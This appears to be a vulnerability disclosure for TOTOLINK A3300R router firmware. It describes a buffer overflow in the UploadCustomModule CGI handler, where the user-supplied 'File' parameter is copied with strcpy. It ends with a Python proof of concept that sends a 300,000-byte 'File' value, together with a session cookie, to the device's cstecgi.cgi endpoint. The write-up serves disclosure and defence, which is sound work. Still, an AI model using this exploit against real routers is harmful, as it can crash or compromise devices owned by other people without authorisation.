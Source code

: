 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3300R V17.0.0cu.557_B20221024 firmware has a buffer overflow vulnerability in the `UploadCustomModule` function. The `v7` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the statement `strcpy(v14, v7);` can cause a buffer overflow injection vulnerability.

![image-20240722024144951](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722024144951.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"File":"a"*300000,"topicurl":"UploadCustomModule"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719101631080](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101631080.png)
